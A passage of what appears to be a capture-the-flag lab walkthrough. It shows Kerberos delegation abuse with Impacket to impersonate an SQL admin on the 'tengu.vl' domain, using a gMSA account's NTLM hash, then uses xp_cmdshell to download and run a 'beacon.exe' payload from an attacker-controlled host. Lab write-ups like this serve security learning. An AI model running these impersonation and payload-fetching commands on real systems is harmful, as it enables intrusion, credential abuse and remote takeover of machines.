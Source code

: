 ```bash
Default principal: Administrator@tengu.vl

Valid starting       Expires              Service principal
08/25/2024 23:34:59  08/26/2024 09:34:59  MSSQLSvc/sql.tengu.vl@TENGU.VL
        renew until 08/26/2024 23:35:01
```
But it doesn't work :

```bash
proxychains -q python3 mssqlclient.py -k sql.tengu.vl
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
```
So instead of Administrator we gonna impersonate a user which is in sql_admins group :

```bash
proxychains -q getST.py -spn 'MSSQLSvc/sql.tengu.vl' 'tengu.vl/gMSA01$' -hashes :'d4b65861e85773fba2035b31ebcacb37' -impersonate 't1_m.winters'
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating t1_m.winters
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

export KRB5CCNAME=t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

proxychains -q python3 mssqlclient.py -k sql.tengu.vl
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'master'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (TENGU\t1_m.winters  dbo@master)>
```
Ok nice, get a shell thanks to "xp_cmdshell"

```bash
xp_cmdshell "echo IWR http://10.8.2.163:8000/beacon.exe -OutFile %TEMP%\beacon.exe | powershell -noprofile"

xp_cmdshell %TEMP%\beacon.exe
```